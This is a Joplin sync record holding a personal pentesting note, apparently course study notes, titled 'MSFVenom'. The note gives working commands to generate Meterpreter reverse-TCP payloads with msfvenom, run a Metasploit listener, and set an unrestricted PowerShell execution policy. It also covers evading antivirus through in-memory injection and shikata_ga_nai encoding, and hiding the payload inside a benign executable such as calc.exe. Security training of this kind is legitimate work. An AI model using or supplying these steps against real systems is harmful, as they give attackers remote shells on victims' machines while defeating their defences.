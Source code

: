 id: 174106e6603149e3afc9109aa2a075c1
parent_id: 
item_type: 1
item_id: f1cbbe07c0c44adb91ce6010b852b46f
item_updated_time: 1642647699432
title_diff: "[{\"diffs\":[[1,\"MSFVenom\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8}]"
body_diff: "[{\"diffs\":[[1,\"# <ins>Use In-memory Virtual Allocation and execute payload within the allocated memory</ins>\\\n\\\nThis is non-detectable by the AV; Uses the in-memory injection\\\n\\\n- Find the code in ~/tools/Avevade.ps1????\\\n    \\\n- Generate the payload:\\\n    \\\n    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell\\\n- Paste the payload into the variable 'sc'\\\n    \\\n    - python2 -m SimpleHTTPServer 80 (Transfer the file)\\\n- Set the execution policy to unrestricted:\\\n    \\\n    - Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser\\\n- On Kali, open handler (See below)\\\n    \\\n\\\n<ins>Use the Meterpreter Listener</ins>\\\n\\\nOpen the metasploit console and use multihandler\\\n\\\n> msfconsole\\\n> \\\n> use multi/handler\\\n\\\nSet the payload to what you want, and set the options\\\n\\\n> set payload windows/meterpreter/reverse_tcp\\\n> \\\n> set LPORT 7777\\\n> \\\n> set LHOST &lt;Kali IP&gt;\\\n> \\\n> exploit\\\n\\\n# Do Encrypted Payload\\\n\\\nUsual encoding is x86/shikata\\\\_ga\\\\_nai - very common till AV can detect\\\n\\\n> ```\\\n> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe\\\n> ```\\\n\\\nEmbed in a non-malicious file, like calc.exe (can use notepad.exe in windows-binaries)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1226}]"
metadata_diff: {"new":{"id":"f1cbbe07c0c44adb91ce6010b852b46f","parent_id":"c26fa1723bb34bf18d91cd4b533bf7b3","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.774Z
created_time: 2022-02-28T02:44:25.774Z
type_: 13